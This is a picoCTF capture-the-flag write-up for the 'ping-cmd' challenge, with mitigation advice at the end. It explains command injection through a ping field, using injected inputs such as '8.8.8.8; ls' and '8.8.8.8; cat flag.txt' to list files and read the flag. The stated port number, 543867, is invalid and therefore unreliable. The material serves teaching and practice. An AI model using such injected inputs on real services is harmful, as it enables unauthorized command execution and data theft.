




# 🛰️ picoCTF Write-Up: ping-cmd

## 🔍 Challenge Details

- **Challenge Name:** ping-cmd  
- **Author:** Yahaya Meddy  
- **Category:** Web Exploitation / Command Injection  

**Description:**  
> Can you make the server reveal its secrets? It seems to be able to ping Google DNS, but what happens if you get a little creative with your input?

---

## 🎯 Objective

Exploit improper input handling in a ping command to execute arbitrary system commands and retrieve the flag.

---
### Question


## ⚙️ Step 1: Connect to the Service

```bash
nc mysterious.picoctf.net 543867
```
### 🧠 Concept: Command Injection

The application takes user input and executes a system command like:
```bash

ping <user_input>
```
Since the input is not sanitized, we can inject additional commands using shell operators like ;.

### 🛠️ Exploitation Steps
🔹 Test Normal Input
```bash
8.8.8.8
```
### Connection and Evaluation

🔹 Inject Command to List Files
```bash
8.8.8.8; ls
```
This executes:
```bash
ping 8.8.8.8; ls
```
### Getting the flag

### 📂 Output reveals:
```bash
flag.txt
```
🔹 Read the Flag
```bash
8.8.8.8; cat flag.txt
```
This executes:
```bash
ping 8.8.8.8; cat flag.txt
```
### Flag

### 🏁 Flag Captured

Successfully retrieved the flag using command injection.

### 💡 Key Takeaways
Unsanitized input in system commands leads to command injection
Shell operators like ;, &&, | can be exploited
Even simple utilities (like ping) can become attack vectors
### ⚠️ Common Mistakes
Testing only valid inputs
Ignoring command chaining
Not understanding how shell execution works
### 🔐 Mitigation (Important)
Validate user input (strict IP format)
Avoid executing raw shell commands
Use secure APIs instead of system() or exec()
Sanitize or escape inputs properly
### 📁 Commands Summary 
```bash
nc mysterious.picoctf.net 543867

8.8.8.8
8.8.8.8; ls
8.8.8.8; cat flag.txt
```
